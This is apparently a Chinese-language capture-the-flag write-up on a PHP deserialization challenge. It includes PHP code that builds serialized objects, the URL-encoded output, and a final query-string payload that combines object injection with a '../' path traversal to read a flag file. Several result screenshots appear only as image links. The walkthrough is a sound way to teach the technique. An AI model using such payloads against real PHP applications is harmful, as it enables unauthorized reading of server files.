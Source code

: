 <font style="color:#000000;">所以构造序列化代码：</font>

```php
<?php  
  class acp 
{   
  protected $cinder ; 
  public $neutron;
  public $nova;
  function __construct() 
  {      
    $this->cinder = new ace;
  }
}  
class ace
{    
  public $filename = 'flag.php';     
  public $openstack;
  public $docker;        
}  

$a= new ace();
$a->docker = null;
$b=new acp();
echo urlencode(serialize($b));
```

<font style="color:#000000;">其中要把 flag.php 的内容赋值给 filename 方便以后打开文件，并且 docker 要为空从而使得neutron 与 nova 相等。</font>

<font style="color:#000000;">输出结果：</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737542997735-3053bd85-5855-4a4d-a581-06cf53e79893.png)

<font style="color:#000000;">即</font>

```php
O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

<font style="color:#000000;">所以传上去看看</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737542979421-636612da-89af-4605-b27b-00537eda5aa7.png)

<font style="color:#000000;">查看源代码得到这个，提示我们 flag 在 /nssctfasdasdflag 这里</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737542979379-499e771e-ffa1-4afd-a046-3df242219a14.png)

<font style="color:#000000;">所以把 flag.php 改为nssctfasdasdflag 在输出一遍即可</font>

<font style="color:#000000;">playload:</font>

```php
?pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A34%3A%22..%2F..%2F..%2F..%2F..%2F..%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3Bs%3A17%3A%22O%3A6%3A%22pkshow%22%3A0%3A%7B%7D%22%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737544347967-bfea4fb9-5bc1-427e-b675-02f08a0abf78.png)

